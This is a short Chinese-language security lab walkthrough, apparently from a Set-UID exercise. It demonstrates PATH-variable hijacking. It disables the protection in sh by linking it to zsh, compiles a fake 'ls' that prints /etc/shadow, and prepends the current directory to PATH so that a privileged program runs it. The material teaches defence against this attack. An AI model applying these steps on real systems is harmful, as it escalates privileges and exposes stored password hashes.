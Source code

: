 使用 `zsh` 代替 `sh`，因为 `sh` 会阻止接下来的攻击：

```bash
sudo ln -sf /bin/zsh /bin/sh
```

编写恶意程序 `ls.c`，内容如下，打印存储密码的 `shadow` 文件（需要 root 权限）：

![](assets/2023-08-22-21-18-13.png)

编译为 `ls` 程序：

```bash
gcc -o ls ls.c
```

![](assets/2023-08-22-21-20-39.png)

运行 `t6.out` 会调用 `ls` 程序，但 `PATH` 未包含当前目录，所以会调用 `/bin/ls`，正常打印当前目录下的文件：

```bash
./t6.out
```

![](assets/2023-08-22-21-22-43.png)

将当前目录添加到 `PATH` 中，再次运行 `t6.out`，会调用当前目录下的 `ls` 程序，打印 `shadow` 文件：

```bash
export PATH=.:$PATH
./t6.out
```
